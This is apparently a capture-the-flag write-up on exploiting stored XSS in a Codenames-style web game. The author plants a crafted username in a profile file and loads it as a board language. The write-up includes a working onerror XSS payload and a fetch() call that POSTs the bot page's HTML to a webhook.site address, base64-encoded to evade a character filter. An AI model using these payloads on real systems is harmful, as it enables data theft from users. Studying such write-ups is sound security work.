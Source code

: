 ```python
username = f"BOT_{code}_" + os.urandom(4).hex()
password = os.environ.get('BOT_SECRET_PREFIX', "") + os.urandom(16).hex()
```

The thing we should look at is the cell content. It is innerHTML which is added from board which we loaded from file like codenames-1

```js
function renderBoard() {
boardTable.innerHTML = '';
for (var i = 0; i < board.length; i++) {
  if (i % 5 === 0) {
    var row = boardTable.insertRow();
  }
  var word = board[i];
  var cell = row.insertCell();
  cell.innerHTML = word;
  cell.id = 'cell-' + i;
  cell.setAttribute('data-idx', i);
  cell.className = 'cell';
    
...
```

So what if we can control what is displayed? we can notice that all users created will save information in profiles folder.

![image](https://hackmd.io/_uploads/BJYMAsJigl.png)

And if we create a `.txt` file. The username will be written that file.

![image](https://hackmd.io/_uploads/H1FwAjJoee.png)

Log in as hihi.txt and create the game with language `/app/profiles/hihi` and we have

![image](https://hackmd.io/_uploads/Hyoj0jkile.png)

Ok. Now try with `<img src=x onerror=alert(1) >.txt`

![image](https://hackmd.io/_uploads/BJ4M12Jsgx.png)

Good! Now we have XSS now use this to fetch the document.body of bot page

```js
fetch('https://webhook.site/71d7a6db-1541-40cf-a397-b2fff5f03cfb',{method:'POST',body:document.body.innerHTML})
```

Before that, we use base64 form because the server blocks `.` and `/`

```html
<img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzcxZDdhNmRiLTE1NDEtNDBjZi1hMzk3LWIyZmZmNWYwM2NmYicse21ldGhvZDonUE9TVCcsYm9keTpkb2N1bWVudC5ib2R5LmlubmVySFRNTH0pCg')) >.txt
```
